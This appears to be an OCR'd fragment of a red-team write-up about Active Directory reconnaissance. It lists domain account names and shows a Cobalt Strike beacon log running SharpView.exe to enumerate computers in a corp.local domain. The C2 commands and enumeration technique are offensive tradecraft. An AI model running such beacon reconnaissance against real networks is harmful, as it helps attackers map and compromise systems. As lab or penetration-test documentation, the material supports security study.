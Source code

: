 ```shell
name                           : svc_iis



name                           : wsadmin



name                           : ned_adm



name                           : ned.flanders_adm



name                           : svc_devops



name                           : pgibbons



name                           : svc_opmanager

```
Get-DomainComputers
```shell
[10/06 16:15:41] beacon> execute-assembly /root/tooltesting/SharpView.exe Get-DomainComputer -Properties DnsHostName
[10/06 16:16:27] [*] Tasked beacon to run .NET program: SharpView.exe Get-DomainComputer -Properties DnsHostName
[10/06 16:16:29] [+] host called home, sent: 843903 bytes
[10/06 16:16:31] [+] received output:
get-domain

[Get-DomainSearcher] search base: LDAP://DC01.corp.local/DC=corp,DC=local

[Get-DomainComputer] Get-DomainComputer filter string: (&(samAccountType=805306369))


[10/06 16:16:36] [+] received output:
dnshostname                    : DC01.corp.local



dnshostname                    : SQL01.corp.local



dnshostname                    : FS01.corp.local



dnshostname                    : WS02.corp.local



dnshostname                    : MS01.corp.local



```